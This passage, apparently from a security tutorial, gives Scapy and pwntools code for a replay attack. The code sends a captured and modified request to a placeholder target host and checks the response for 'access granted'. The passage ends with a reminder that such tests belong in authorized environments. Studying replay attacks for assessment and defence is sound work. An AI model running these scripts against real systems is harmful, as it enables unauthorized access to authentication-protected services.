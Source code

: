 ```python
wrpcap('modified_capture.pcap', auth_packet)

# Optionally send the packet
send(auth_packet)
```

### Using pwntools for Advanced Exploitation

```python
from pwn import *

# Set up logging
context.log_level = 'debug'

# Connect to target
r = remote('target.example.com', 80)

# Read captured request from file
with open('captured_request.bin', 'rb') as f:
    captured_data = f.read()

# Modify specific bytes if needed
modified_data = captured_data.replace(b'old_value', b'new_value')

# Send the modified request
r.send(modified_data)

# Receive and analyze response
response = r.recvall(timeout=5)
log.success(f"Received {len(response)} bytes")

# Look for success indicators
if b'access granted' in response.lower():
    log.success("Replay attack successful!")
else:
    log.failure("Replay attack failed")
```

Remember that all replay attack activities must be performed only in authorized environments with proper permissions. These techniques are intended for security assessment and defensive improvement purposes only.
